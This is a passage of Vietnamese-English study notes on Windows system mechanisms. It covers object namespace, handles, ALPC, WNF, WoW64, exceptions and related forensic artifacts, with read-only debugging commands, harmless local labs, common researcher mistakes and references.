handle.exe -a -p <PID>                 # all handles, detailed
handle.exe C:\Windows\System32\file    # which processes hold this file

# Process Explorer → Lower pane → Handles
# Filter by type: File, Section, Event, Mutant, ...

# WinDbg kernel:
lkd> !handle 0 3 <PID>               # all handles verbose for PID
lkd> !handle <val> 7 <PID>           # specific handle with full type info
```

**Named objects in namespace:**
```
# WinObj → navigate to \BaseNamedObjects
# WinDbg:
lkd> !object \BaseNamedObjects         # list directory
lkd> !object \BaseNamedObjects\MyEvent # inspect specific object
lkd> dt nt!_OBJECT_HEADER <addr>       # inspect object header
```

**Memory dump object artifacts:**
```
lkd> !process 0 0                      # list all processes
lkd> !process 0 0x10 notepad.exe       # process + handle table
lkd> !objtypes                         # list all registered object types
lkd> !object \Device                   # \Device directory
lkd> dt nt!_EPROCESS <addr> DebugPort  # check debug port
```

**Object forensic value:** Named objects (Event, Mutex, Section) tồn tại chừng nào còn handle open. Volatile — không in crash dump từ subsequent boot; cần live snapshot hoặc kernel/full dump từ thời điểm incident. Object creator có thể trace qua handle table cross-reference.

### 10.2 IPC Artifacts

**Named pipe artifacts:**
- `\Device\NamedPipe\` trong WinObj — shows open named pipes
- Sysmon Event 17/18 logs — pipe create/connect với PID và pipe name
- `[System Process]` pipes: system-managed
- Process-specific pipes: often IPC artifacts

**ALPC port artifacts:**
```
# Live system - WinDbg kernel:
lkd> !alpc /p <PID>         # ALPC ports for process
lkd> !object \RPC Control    # RPC ALPC ports in namespace

# NtApiDotNet:
Get-NtAlpcPort -ProcessId <PID>
ls NtObject:\RPC Control
```

**RPC endpoint information:**
- `HKLM\SOFTWARE\Microsoft\Rpc\` — RPC configuration
- `netstat` não show ALPC — in-kernel, not network
- RPC ETW (`Microsoft-Windows-RPC`) captures RPC activity including endpoint info

**Client/server relationships:**
- ALPC connection port objects link server PID and client PIDs
- WinDbg `!alpc` shows connection tree
- Forensically: tells who was communicating with what service

### 10.3 Exception và Debug Artifacts

**Crash dump artifacts:**
- `%SystemRoot%\Minidump\*.dmp` — mini dumps; stack at crash, exception record, module list
- `%SystemRoot%\MEMORY.DMP` — full kernel dump; most valuable for deep forensics
- `%LOCALAPPDATA%\CrashDumps\` — per-user application crash dumps

**Analyzing crash dumps:**
```
windbg -z C:\path\to.dmp
lkd> !analyze -v           # auto-analyze crash cause
lkd> .exr -1               # exception record
lkd> .cxr                  # exception context record
lkd> kb                    # stack backtrace
lkd> lm                    # module list at crash time
lkd> !process 0 0          # process list at crash time
```

**WER (Windows Error Reporting) artifacts:**
- Event Log Application: Event ID 1000 (crash), 1001 (WER sent)
- `C:\ProgramData\Microsoft\Windows\WER\ReportArchive\` — stored reports
- Contains: faulting module, exception code, offset, version, hash

**Debug forensics:**
- `EPROCESS.DebugPort != NULL` in memory → process was being debugged at snapshot time
- Debug object reveals debugger PID ↔ debuggee PID relationship
- In crash dump: `dt nt!_EPROCESS <addr> DebugPort`

### 10.4 WoW64 Artifacts

**Process bitness indicators:**
- Sysmon Event 1: `Wow64Process = true/false`
- ETW process create event: WoW64 flag
- Task Manager / Process Explorer: architecture column (x86 vs x64)
- Module list: `wow64.dll`, `wow64cpu.dll`, `SysWOW64\ntdll.dll` presence

**File system artifacts:**
- `C:\Windows\SysWOW64\` — 32-bit system binaries; if malware copied to "System32," check here
- `%LOCALAPPDATA%` paths may differ for 32-bit processes on some configurations
- Procmon: path shown after redirection — `SysWOW64` paths for 32-bit process confirm bitness

**Registry artifacts:**
```
# When analyzing potentially 32-bit malware remnants:
# Check BOTH:
HKLM\SOFTWARE\<vendor>\           # 64-bit view
HKLM\SOFTWARE\Wow6432Node\<vendor>\  # 32-bit view

# Run key:
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
```

### 10.5 Notification và Telemetry Artifacts

**ETW trace artifacts:**
- `*.etl` files — ETW trace logs; parse with WPR/WPA, logman, PerfView
- `C:\Windows\System32\WDI\LogFiles\` — Windows Diagnostic Infrastructure traces
- `C:\Windows\System32\LogFiles\WMI\` — WMI activity logs

**WNF artifacts:**
- Registry: `HKLM\SYSTEM\CurrentControlSet\Control\Notifications` — persistent WNF states
- Memory: WNF state database in kernel — accessible via WinDbg or WNFDump against live/dump

**Event Log artifacts:**
Standard forensic Event IDs relevant to system mechanisms:

| Event ID | Log | Relevance |
|---------|-----|-----------|
| 4656 | Security | Object handle requested — name, access mask |
| 4663 | Security | Object accessed — specific operation |
| 4658 | Security | Handle closed |
| 4688 | Security | Process created — WoW64 flag, parent |
| 4689 | Security | Process exited |
| 1000 | Application | Application crash — exception code, module |
| 1001 | Application | WER fault bucket — correlated crash info |
| 4611 | Security | Trusted logon process registered |

---

## 11. Debugging and Reversing Notes

### WinObj — Object Manager Namespace Browser

WinObj (Sysinternals, signed by Microsoft) browse Object Manager namespace với full hierarchy:

```
Inspect:
- \Device             → device objects (disks, ports, virtual devices)
- \GLOBAL??           → drive letter symbolic links
- \Sessions\N\        → per-session namespaces
- \BaseNamedObjects   → global named objects
- \RPC Control        → ALPC ports for RPC services

Notes:
- Elevation required for full namespace visibility
- Right-click object → Properties → security descriptor
- Double-click symbolic link → shows target path
- Session subfolders appear when multiple users are logged in
```

**Command-line alternative (NtApiDotNet):**
```powershell
Import-Module NtObjectManager
# List root:
Get-ChildItem NtObject:\
# List BNO:
Get-ChildItem NtObject:\BaseNamedObjects
# Get specific object:
Get-NtObject -Path \BaseNamedObjects\MyEvent
# Get security descriptor:
(Get-NtObject -Path \BaseNamedObjects\MyEvent).SecurityDescriptor
```

### handle.exe / Process Explorer

**handle.exe (Sysinternals):**
```
# All handles for process:
handle.exe -p notepad

# All handles for PID:
handle.exe -p 1234

# Which process has handle to specific file:
handle.exe C:\path\to\file.txt

# Filter by type:
handle.exe -p 1234 -t File

# Raw hex output (for scripting):
handle.exe -p 1234 -v
```

**Process Explorer — handles view:**
- View → Lower Pane → Handles (Ctrl+H)
- Column: Type, Name, Handle (hex value), Access (if available)
- Ctrl+F: find handle by partial name across all processes
- Hover over handle: tooltip shows full object path
- Double-click: handle properties including granted access if visible
- Color coding: highlights recently opened/closed handles in red/green

**Identifying sensitive handles:**
| Handle type | Why interesting |
|------------|----------------|
| Process with `PROCESS_VM_READ/WRITE` | Memory access — injection indicator |
| Token with `TOKEN_IMPERSONATE` | Credential use |
| Section (unnamed) with execute | Possible shellcode region |
| File to suspicious path | Evidence of access |

### WinDbg — Kernel Object Inspection

```
# Object Manager:
lkd> !object \                         # root namespace
lkd> !object \Device                   # device namespace
lkd> !object \BaseNamedObjects         # global named objects
lkd> !object \BaseNamedObjects\MyEvent # specific named object

# Object header inspection:
lkd> dt nt!_OBJECT_HEADER <address>
     +0x000 PointerCount     # kernel reference count
     +0x008 HandleCount      # open handle count
     +0x020 TypeIndex        # index into ObpObjectTypes (build-specific)
     +0x030 Flags            # OB_FLAG_PERMANENT etc.

# Object type info:
lkd> !objtypes                         # list all object types
lkd> dt nt!_OBJECT_TYPE <addr>         # specific type structure

# Handles:
lkd> !handle 0 3 <PID>                # all handles, verbose
lkd> !handle <handle_value> 7 <PID>   # one handle, type+security

# Process:
lkd> !process 0 0                     # all processes summary
lkd> !process 0 0x10 notepad.exe      # process + handle table

# ALPC:
lkd> !alpc /p <PID>                   # ALPC ports for process
lkd> !alpc /m <msg_addr>              # ALPC message inspect
lkd> !alpc /l                         # all ALPC ports system-wide

# Symbolic links:
lkd> !object \GLOBAL??\C:             # C: drive symlink
# or use dt nt!_OBJECT_SYMBOLIC_LINK <addr>

# Exception and debug:
lkd> dt nt!_EPROCESS <addr> DebugPort # is process being debugged?
lkd> !exchain                         # (user-mode context) exception chain

# Stack traces:
lkd> k                                 # basic stack
lkd> kv                                # with frame pointer + call args
lkd> kb                                # with first 3 arguments

# Exception settings (user-mode WinDbg):
sxe av                                 # break on first-chance access violation
sxd av                                 # disable break on AV, only second-chance
sx                                     # list current exception settings

# WoW64:
lkd> !wow64exts.sw                     # switch context to WoW64 in user-mode session
```

**Read-only framing:** Tất cả commands trên chỉ read kernel state. WinDbg `ed`, `eb`, `ew` (write memory) và `!gle` (set last error) là write operations — không dùng trong forensic context nếu không cần thiết.

### x64dbg — User-mode Debugging

```
# First-chance exception observation:
- Debug menu → Options → Exceptions → configure which to break on
- First-chance: debugger breaks when exception first raised
- Second-chance: only if unhandled
- Exception codes to commonly observe:
  0xC0000005 - ACCESS_VIOLATION
  0x80000003 - BREAKPOINT
  0xE06D7363 - C++ exception (not usually interesting)

# Module list (32-bit vs 64-bit):
View → Modules → compare module list
For WoW64 process in 32-bit x64dbg:
  - See WoW64 DLLs in 32-bit module list
  - SysWOW64\ntdll.dll is the loaded ntdll

# ntdll/API transition:
- Set BP on ntdll!NtCreateFile (32-bit ntdll for WoW64 process)
- Observe call stack: Win32 → ntdll → WoW64 thunk → 64-bit syscall

# SEH/VEH view:
View → SEH chain (if 32-bit context)
Right-click in CPU view → Breakpoints → See VEH list

# WoW64 caveats:
- Use 32-bit x64dbg for 32-bit processes
- Use 64-bit x64dbg for 64-bit processes
- Attaching wrong bitness → cannot properly resolve symbols or breakpoints
```

### Procmon — File/Registry/Process Observation

```
# Procmon filter setup for system mechanism research:

Filter by process:
  Process Name is "notepad.exe" → narrow scope

Filter by operation:
  Operation is "CreateFile"   → file/device opens
  Operation is "RegOpenKey"   → registry namespace
  Operation is "RegCreateKey" → registry creation

Filter by path:
  Path contains "SysWOW64"         → 32-bit WoW64 activity
  Path contains "Wow6432Node"      → 32-bit registry redirection
  Path contains "BaseNamedObjects" → named object activity
  Path contains "NamedPipe"        → named pipe activity

Filter by result:
  Result is "NAME NOT FOUND"       → missing objects, failed lookups

Stack trace:
  Double-click any event → Stack tab → call chain from app to kernel

Notes:
- Procmon shows effective paths (post-WoW64 redirection for 32-bit processes)
- Does NOT show raw Object Manager operations (ALPC, WNF, kernel objects)
- Process and thread events (create/exit/image load) available under Options → Enable Advanced
```

### PowerShell — High-level Inspection

```powershell
# Process bitness:
(Get-Process -Name notepad).Modules | Where Path -match SysWOW64

# Check if process is WoW64:
$p = Get-Process -Id 1234
$p.Modules | Where { $_.ModuleName -eq "wow64.dll" }

# Query Event Logs:
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4656]]" | Select -First 10
Get-WinEvent -LogName Application -FilterXPath "*[System[EventID=1000]]"

# Enumerate named pipes (high-level):
Get-ChildItem \\.\pipe\

# Check Wow6432Node vs standard registry:
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion" -ErrorAction SilentlyContinue

# NtApiDotNet for deeper access (separate install):
# Install-Package NtApiDotNet
Import-Module NtObjectManager
Get-NtProcess | Format-Table Name, ProcessId, IsWow64, IntegrityLevel
ls NtObject:\BaseNamedObjects
```

---

## 12. Safe Local Labs

### Lab 8.1 — Inspect Object Manager Namespace với WinObj

**Mục tiêu:** Kết nối named objects với actual Object Manager paths — hiểu namespace là gì.

**Requirements:** WinObj (Sysinternals), Windows 10/11 VM, Administrator access

**Bước thực hiện:**
```
1. Download WinObj từ Sysinternals (docs.microsoft.com/sysinternals/downloads/winobj)
2. Run WinObj as Administrator
3. Click vào root namespace \ — observe top-level directories
4. Navigate \Device — note device objects (HarddiskVolume*, Serial*, NamedPipe, ...)
5. Navigate \GLOBAL?? — note drive letter symbolic links
   Right-click C: → Properties → note Target value (e.g., \Device\HarddiskVolume3)
6. Navigate \Sessions — observe session-numbered subdirectories
7. Open \Sessions\1\BaseNamedObjects (hoặc session ID của interactive session)
   Compare với root \BaseNamedObjects
8. Open a text editor (Notepad) — refresh WinObj — look for new objects
9. Close Notepad — refresh WinObj — confirm object removal if any
```

**Expected observations:**
- Windows có kernel object namespace hoàn toàn tách biệt với filesystem
- Drive letters là symbolic link objects
- Sessions có separate object directories — IPC naming implications
- Object disappears when last handle closes

**Cleanup:** No changes needed — WinObj is read-only.

---

### Lab 8.2 — Create và Observe a Named Event

**Mục tiêu:** Hiểu named dispatcher objects — creation, namespace placement, lifetime.

**Requirements:** C/C++ compiler hoặc PowerShell + NtApiDotNet, WinObj, Process Explorer

**Sử dụng C program:**
```c
#include <windows.h>
#include <stdio.h>

int main(void) {
    // Create named event in session-local namespace:
    HANDLE hEvent = CreateEvent(NULL, FALSE, FALSE, L"Local\\WinInternalsLabEvent");
    if (!hEvent) {
        printf("CreateEvent failed: %lu\n", GetLastError());
        return 1;
    }
    printf("Event created. PID: %lu. Press Enter to close.\n", GetCurrentProcessId());
    getchar();
    CloseHandle(hEvent);
    printf("Handle closed.\n");
    return 0;
}
```

**Bước thực hiện:**
```
1. Compile và run program
2. While program waits at Enter:
   a. Open WinObj → navigate \Sessions\N\BaseNamedObjects
      Find "WinInternalsLabEvent" — note object type and path
   b. Open Process Explorer → find the program process → Handles pane
      Find the Event handle — note handle value and name
   c. Run handle.exe -p <PID> — find the event handle
3. Press Enter in program
4. After CloseHandle:
   a. Refresh WinObj — confirm object is gone
```

**Expected observations:**
- `Local\` maps to `\Sessions\N\BaseNamedObjects\` in namespace
- Object visible in namespace while handle open
- Object disappears after last CloseHandle
- Process Explorer and handle.exe show same handle

---

### Lab 8.3 — Handle Inspection

**Mục tiêu:** Hiểu per-process handle tables và handle relationships.

**Requirements:** Process Explorer, handle.exe, Notepad (hoặc any process)

**Bước thực hiện:**
```
1. Open Notepad
2. In Process Explorer:
   a. Click on notepad.exe process
   b. View → Lower Pane → Handles (Ctrl+H)
   c. Observe: File handles (documents, system DLLs)
               Section handles (mapped DLLs)
               Event handles
               Thread/Process handles (own process/threads)
3. Open Task Manager separately
4. Compare: Task Manager shows almost nothing vs Process Explorer showing 50+ handles
5. In handle.exe:
   handle.exe -p notepad
   Note: same objects, different presentation
6. Try: handle.exe C:\Windows\System32\kernel32.dll
   Which processes have this file open?
7. Compare handle VALUES between two processes — same object, different values
```

**Expected observations:**
- Handle values are per-process; no global meaning
- Handle table reveals process relationships not visible in Task Manager
- Many processes share references to same system DLLs via Section objects
- File, Section, Event, Key, Token handles all visible

---

### Lab 8.4 — WoW64 Redirection Observation

**Mục tiêu:** Hiểu 32-bit vs 64-bit view — file system và registry redirection.

**Requirements:** 64-bit Windows, Procmon, Regedit, both 32-bit and 64-bit PowerShell

**Bước thực hiện:**
```
1. File system comparison:
   a. Open Explorer: C:\Windows\System32 — note contents (64-bit binaries)
   b. Open Explorer: C:\Windows\SysWOW64 — note contents (32-bit binaries)
   c. Run 32-bit PowerShell: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   d. In 32-bit PS: dir C:\Windows\System32 — observe (this is redirected view)
   e. In 32-bit PS: dir C:\Windows\Sysnative — this escapes redirection

2. Registry comparison:
   a. Open Regedit → HKLM\SOFTWARE → note 64-bit software entries
   b. Open HKLM\SOFTWARE\Wow6432Node → note 32-bit software entries
   c. In 32-bit PowerShell:
      Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
      (This reads Wow6432Node version)
   d. Compare with 64-bit PowerShell reading same path

3. Procmon observation:
   a. Start Procmon
   b. Filter: Process Name is "powershell.exe" AND bitness is 32
   c. Run Get-ItemProperty in 32-bit PS
   d. Observe: Path in Procmon shows Wow6432Node actual path
```

**Expected observations:**
- 32-bit PowerShell sees SysWOW64 content when accessing System32
- Registry path in Procmon shows actual Wow6432Node path for 32-bit process
- Sysnative path gives true System32 access from 32-bit process
- Tool bitness affects what you see

---

### Lab 8.5 — Exception/Debugger Observation

**Mục tiêu:** Quan sát first-chance và second-chance exception — understand debugger interaction.

**Requirements:** WinDbg (user-mode), a harmless C program that raises an exception

**Test program:**
```c
#include <windows.h>
#include <stdio.h>

int main(void) {
    printf("About to raise BREAKPOINT exception...\n");
    // INT 3 — breakpoint exception (0x80000003)
    // This is a controlled exception — NOT a crash
    __try {
        __debugbreak(); // raises 0x80000003 EXCEPTION_BREAKPOINT
        printf("Exception was handled by __except.\n");
    }
    __except(EXCEPTION_EXECUTE_HANDLER) {
        printf("SEH handler caught exception.\n");
    }
    printf("Program continues normally.\n");
    return 0;
}
```

**Bước thực hiện:**
```
1. Run program WITHOUT debugger:
   - Observe: program runs, SEH catches exception, continues
   - No crash

2. Attach WinDbg to program (or launch under WinDbg):
   windbg program.exe

3. In WinDbg, run program (F5):
   Observe: "(PID.TID): Break instruction exception - first chance!"
   "First chance exceptions are reported before any exception handling."

4. Commands to run at break:
   k    → stack trace at exception
   .exr -1 → exception record
   gh   → go handled (tell debugger to handle)
   OR
   gn   → go not handled (pass to program's handler)

5. After gn: SEH handler in program runs (if __except present)
   If no handler and gn again: second-chance exception

6. Observe difference between:
   - First chance (debugger notification)
   - Second chance (unhandled — process would crash)
   - Handled exception (normal program flow)
```

**Expected observations:**
- Exception does NOT always mean crash
- Debugger changes exception visibility and handling order
- First-chance exception is diagnostic information, not incident report
- SEH can handle exceptions without crash

---

### Lab 8.6 — ALPC/WNF Research Orientation

**Mục tiêu:** Hiểu tại sao ALPC/WNF cần specialized tooling — và calibrate expectations.

**Requirements:** WinObj, Process Explorer, WinDbg (optional), NtApiDotNet (optional), documentation access

**Bước thực hiện:**
```
1. ALPC orientation:
   a. Open WinObj → navigate \RPC Control
      Observe: many ALPC port objects for various services
   b. Note: cannot easily see ALPC connections from WinObj alone
   c. If WinDbg kernel access available:
      lkd> !alpc /p 4   (System process)
      Note the number of ALPC ports

2. Standard tools limitations:
   a. Open Procmon, Process Monitor — do they show ALPC?
      Answer: No — ALPC is not in standard Procmon filter categories
   b. Open Sysmon (if installed) — does it capture ALPC?
      Answer: Not raw ALPC; only named pipes (Event 17/18)
   c. Conclusion: ALPC requires kernel tooling or specialized agents

3. WNF orientation (if NtApiDotNet available):
   Install-Package NtApiDotNet
   Import-Module NtObjectManager
   Get-NtWnfState | Measure-Object
   (Shows how many WNF states exist)
   Get-NtWnfState | Select StateName, DataSize | Select -First 20

4. Standard tools limitations for WNF:
   a. Check Event Log — is WNF activity logged? (Usually not by default)
   b. Conclusion: WNF requires specialized tooling; not in standard pipeline

5. Documentation:
   a. Read Windows Internals Ch.8 section on ALPC/WNF
   b. Note: internals documentation is limited; research required
```

**Expected observations:**
- ALPC and WNF are not visible through beginner tools
- Specialized tooling (WinDbg, NtApiDotNet) required for analysis
- Standard SIEM pipelines have limited ALPC/WNF coverage
- Advanced IPC research requires kernel-level access

---

## 13. Common Researcher Mistakes

1. **Thinking exception always means crash** — Exception là event trong exception dispatch pipeline. First-chance exception trong WinDbg là diagnostic notification trước khi handler runs. .NET, VCL, và JavaScript engines generate thousands of handled exceptions in normal operation.

2. **Thinking syscall means bypassing kernel security** — SYSCALL instruction changes CPU privilege level, không bypass authorization. Kernel access checks (SRM, ProbeForRead, integrity levels) vẫn execute. Thay đổi call path chỉ thay đổi user-mode observation point.

3. **Thinking syscall numbers are stable** — Syscall numbers thay đổi giữa Windows versions, service packs, và cumulative updates. Tool hardcode syscall number sẽ break hoặc call wrong function sau OS update. Robust tools dùng symbol-based lookup.

4. **Thinking ntdll is optional for API analysis** — Gần như mọi legitimate process load ntdll.dll. ntdll là giao điểm giữa user-mode và Native API. Bỏ qua ntdll layer bỏ sót thông tin về actual syscall intent.

5. **Thinking Object Manager namespace is the same as filesystem** — Object namespace (`\Device`, `\Sessions`, `\BaseNamedObjects`) là kernel-internal tree, không phải filesystem. Không visible trong Explorer; không accessible qua standard file APIs; không persist across reboots (trừ permanent objects).

6. **Thinking handle value is globally meaningful** — Handle là per-process index. Handle `0x4` trong Process A và `0x4` trong Process B refer đến hoàn toàn khác objects. Correlation requires process context.

7. **Thinking named object path alone proves identity** — `CreateMutex(NULL, FALSE, "MyApp")` in Session 1 và Session 0 tạo hai objects khác nhau. Named object path chỉ meaningful trong context của session và namespace prefix.

8. **Ignoring Global vs Local namespace** — Service trong Session 0 và app trong Session 1 communicate qua `Global\` named objects. Nếu code không dùng `Global\` prefix, objects không visible cross-session. Forensically: check cả two paths khi investigating.

9. **Ignoring session-specific object directories** — Memory forensics examining named objects phải account for session. Object visible trong `\Sessions\1\BaseNamedObjects` không visible trong `\Sessions\0\BaseNamedObjects`. Check tất cả sessions khi doing thorough analysis.

10. **Confusing symbolic link with target object** — WinObj shows `C:` là symbolic link với target `\Device\HarddiskVolume3`. Security descriptor trên symlink object khác với target. Path resolution follows symlink — actual I/O goes to target.

11. **Thinking ALPC is the same as named pipe** — Named pipe là file-like object trong `\Device\NamedPipe`; ALPC là port-based kernel IPC với completely different semantics, message model, và tooling. Không interchangeable; không related trong implementation.

12. **Thinking WNF is the same as ETW** — ETW: event stream — consumers get events in real-time. WNF: state — subscribers get current value when it changes; late subscribers see current state immediately. Different model, different use cases, different tooling.

13. **Thinking 32-bit process sees same System32/registry as 64-bit process** — WoW64 redirection means 32-bit process's `System32` = `SysWOW64` và `SOFTWARE\` = `Wow6432Node`. Artifacts of 32-bit malware appear in different locations than expected. Always check both views.

14. **Using wrong debugger/tool bitness** — Attaching 32-bit x64dbg to 64-bit process → incorrect module list, wrong symbol resolution, incorrect breakpoint addresses. Use bitness-matched tools. Process Explorer shows architecture column to verify.

15. **Thinking first-chance exception is automatically malicious** — Many legitimate frameworks use exceptions for normal control flow. Filter by exception code (0xE06D7363 = C++ exception, 0x80000003 = breakpoint) và calling module. Context is everything.

16. **Thinking mutex/event presence is enough attribution** — Mutex name là weak indicator alone. Malware names easy to spoof or change between variants. Correlate with file system artifacts, network IOCs, process behavior, and parent chain.

17. **Thinking user-mode API monitoring equals ground truth** — User-mode hooks see only what passes through that hook point. Direct syscall, different call path, or different layer can bypass. Kernel-level monitoring (ETW, callbacks) provides more complete picture.

18. **Ignoring handle inheritance/duplication** — Child process spawned với `bInheritHandles = TRUE` may have unexpected handles from parent — including token handles, process handles, file handles. Check handle table of child process, not just parent.

19. **Assuming object internals are stable across builds** — `_OBJECT_HEADER.TypeIndex`, `_EPROCESS.DebugPort` offset, và WNF state names change between builds. Kernel struct offsets require symbols (PDB files) to interpret correctly. Never hardcode without symbols.

20. **Treating WNF/ALPC findings without context** — WNF state change và ALPC activity are common in healthy Windows operation. Sự hiện diện của WNF publish hoặc ALPC connection không inherently suspicious — requires context of what, who, when, and why.

21. **Confusing PointerCount with HandleCount in WinDbg** — `!object` shows both. `PointerCount` ≥ `HandleCount`. Object với HandleCount=0 nhưng PointerCount>0 still exists because kernel holds reference. Object freed only when PointerCount reaches 0.

22. **Assuming SYSTEM privilege is the highest trust level** — PPL (Protected Process Light) processes và VBS/IUM (Isolated User Mode) processes have code integrity constraints that SYSTEM token doesn't automatically bypass. Trust model is more nuanced than privilege level alone.

---

## 14. Windows Version Notes

**Syscall numbers — per-build, không stable:**
Syscall numbers cho NtCreateFile, NtOpenProcess, v.v. thay đổi giữa mọi major Windows release và nhiều cumulative updates. Tools phụ thuộc hardcoded syscall numbers (không dùng symbol lookup) sẽ break. Researchers cần xác nhận syscall numbers trên target build cụ thể, không assume.

**Object layouts và struct offsets — build-specific:**
`_OBJECT_HEADER`, `_EPROCESS`, `_ETHREAD`, `_OBJECT_TYPE` offsets thay đổi. WinDbg sử dụng PDB symbols để resolve — đây là lý do tại sao `.sympath` và symbol server setup quan trọng. Scripts và tools parse raw structs cần symbols hoặc hardcoded offsets sẽ misparse.

**WoW64 behavior — conceptually stable, tooling varies:**
Core WoW64 redirection behavior (System32→SysWOW64, SOFTWARE→Wow6432Node) ổn định qua Windows versions. Nhưng WoW64 thunking implementation details và tooling support (debugger extensions, NtApiDotNet API) có thể vary. Heaven's Gate mechanics thay đổi với security mitigations.

**ALPC internals — less documented, can change:**
ALPC được redesigned từ LPC (Windows Vista). Implementation details không well-documented; thay đổi internal structures qua builds là possible. WinDbg `!alpc` extension functionality depends on symbols. Research ALPC với expectation của volatility trong documentation và tooling.

**WNF — Windows 10+ feature:**
WNF không tồn tại trên Windows 7/8.1. Được introduce trong Windows 10. State names, structures, và behavior có thể thay đổi qua Windows 10 feature updates. WNF research tools (WNFDump) cần updates để handle new builds. State name thay đổi — không assume cross-build stability.

**Debugger extensions — depend on symbols and build:**
WinDbg extension commands (`!alpc`, `!process`, `!handle`) rely on ntoskrnl symbols. Behavior và output format có thể differ giữa builds. Luôn confirm symbol loading với `.lml` trước running extension commands.

**ETW provider coverage differences:**
ETW provider availability và event schema change qua Windows versions. Một số providers introduce trong Windows 10 không có trên Windows 7. Event field names và provider GUIDs có thể change. Platform-specific telemetry design cần account for version-specific availability.

**VBS/HVCI — changes debugging và kernel assumptions:**
Windows 11 với HVCI enabled có thêm constraints:
- Kernel code phải be signed (hypervisor validates)
- Kernel patch guard interactions stronger
- WinDbg kernel debugging với secure boot constraints cần specific setup
- Some object layouts và behaviors influenced by VBS/IUM presence

**Windows 10 vs Windows 11 — conceptually similar:**
Core Object Manager, ALPC, WoW64, exception handling concepts không fundamentally change. Implementation details, some default configurations (VBS on/off, HVCI), và tooling behavior differ. For most research concepts, treat as similar — but verify specifics on target build.

---

## 15. Summary

System mechanisms là **shared primitives** của Windows — không phải một subsystem mà là infrastructure mà tất cả subsystems khác đều sử dụng.

**Syscalls và transitions:**
Mọi kernel resource access đi qua syscall boundary. Syscall là intentional CPU privilege transition — authorization vẫn enforced ở kernel. Syscall numbers build-specific; monitoring layer matters.

**Object Manager:**
Mọi kernel resource là object. Object Manager quản lý namespace (hierarchical từ `\`), object types, handles, reference counting, và security integration. Handles encode granted access per-process. Object lifetime controlled bởi reference count.

**Naming và sessions:**
Named objects sống trong Object Manager namespace. Session isolation — `\Sessions\N\BaseNamedObjects` — affects cross-session visibility. `Global\` prefix vượt qua session boundary. Named objects are IPC surfaces, synchronization primitives, và forensic artifacts.

**WoW64:**
32-bit process trên 64-bit OS thấy redirected world — System32→SysWOW64, SOFTWARE→Wow6432Node. WoW64 là compatibility layer, không security boundary. Tool bitness phải match process bitness for accurate analysis. Malware artifacts có thể ở unexpected locations vì WoW64 redirection.

**ALPC và WNF:**
ALPC backs phần lớn Windows IPC (RPC, COM, service communication). WNF là pub-sub state notification. Cả hai ít documented và require specialized tooling. Visibility gaps so với ETW/EventLog.

**Debugging và exceptions:**
Exception không nhất thiết là crash — có thể là normal flow, debug signal, hoặc anti-analysis. Exception delivery pipeline: KD → user debugger → VEH → SEH → WER → crash. Debugger presence changes exception behavior. First-chance là diagnostic; second-chance là unhandled.

**Telemetry:**
Monitoring layer xác định visibility. User-mode hooks, kernel callbacks, ETW, và Event Log đều thấy different slices. Object namespace và ALPC thường require specialized tooling beyond standard pipeline. Stack traces add context nhưng imperfect.

**Từ góc độ research:** Hiểu system mechanisms nghĩa là hiểu được "layer đang được observed" — điều này fundamental cho accurate behavior analysis, cross-process relationship mapping, và artifact interpretation.

---

## 16. Research Questions

1. Windows có nhiều mechanisms transition vào kernel mode (syscall, exception, interrupt). Researcher quan sát behavior ở user-mode API layer sẽ miss những gì so với kernel ETW layer?

2. Object Manager naming rules (Global\, Local\, session namespace) ảnh hưởng thế nào đến security của named object-based IPC giữa service và user process?

3. Handle inheritance và duplication cho phép handles cross process boundaries. Trong scenario nào điều này là legitimate behavior vs red flag trong forensic analysis?

4. User-mode API monitoring (Win32 hooks, IAT hooks) thấy behaviors nào mà Object Manager inspection không thấy? Và ngược lại — Object Manager inspection thấy gì mà API monitoring miss?

5. Memory forensics từ crash dump có thể recover những kernel object artifacts nào mà Event Log không capture? Khi nào crash dump có giá trị forensic hơn Event Log?

6. WoW64 path và registry redirection thay đổi thế nào interpretation của file system và registry artifacts khi analyzing 32-bit malware trên 64-bit system?

7. Exception không nhất thiết là crash. Làm thế nào researcher phân biệt exception-as-control-flow (legitimate) với exception-as-abnormal-condition trong context của malware analysis?

8. Named mutex và event objects là software fingerprints, nhưng có thể misleading. Trong điều kiện nào named mutex presence là strong evidence vs weak indicator khi attributing malware?

9. ALPC khó inspect hơn named pipes qua standard tools. Tại sao? Công cụ và access level nào cần thiết để có meaningful ALPC visibility?

10. WNF khác ETW như thế nào về model (state vs event stream)? Trong context của Windows internals research, khi nào WNF cung cấp insight mà ETW không?

11. ETW, `ObRegisterCallbacks`, và Security Audit (Event Log) đều generate telemetry về handle operations. Trong một investigation, researcher nên dùng source nào và tại sao mỗi source complement lẫn nhau?

12. Syscall numbers thay đổi giữa Windows builds. Điều này ảnh hưởng thế nào đến reliability của security tools hardcode syscall numbers? Researchers thiết kế tools nên account cho điều này như thế nào?

---

## 17. References

### Sách Chính

- **Windows Internals, Part 2, 7th Edition, Chapter 8** — Allievi, Ionescu, Solomon, Russinovich — nguồn chính cho chương này: System Mechanisms
- **Windows Internals, Part 1, 7th Edition** — Chapters 1–7 — foundation cho hiểu Object Manager, security, I/O, memory

### Microsoft Documentation

- **Microsoft Learn: Windows Kernel Architecture** — https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/
- **Microsoft Learn: Object Names** — https://learn.microsoft.com/en-us/windows/win32/sync/object-names
- **Microsoft Learn: Synchronization Objects** — https://learn.microsoft.com/en-us/windows/win32/sync/synchronization-objects
- **Microsoft Learn: Event Objects** — https://learn.microsoft.com/en-us/windows/win32/sync/event-objects
- **Microsoft Learn: Mutex Objects** — https://learn.microsoft.com/en-us/windows/win32/sync/mutex-objects
- **Microsoft Learn: Semaphore Objects** — https://learn.microsoft.com/en-us/windows/win32/sync/semaphore-objects
- **Microsoft Learn: Wait Functions** — https://learn.microsoft.com/en-us/windows/win32/sync/wait-functions
- **Microsoft Learn: WoW64 Implementation Details** — https://learn.microsoft.com/en-us/windows/win32/winprog64/wow64-implementation-details
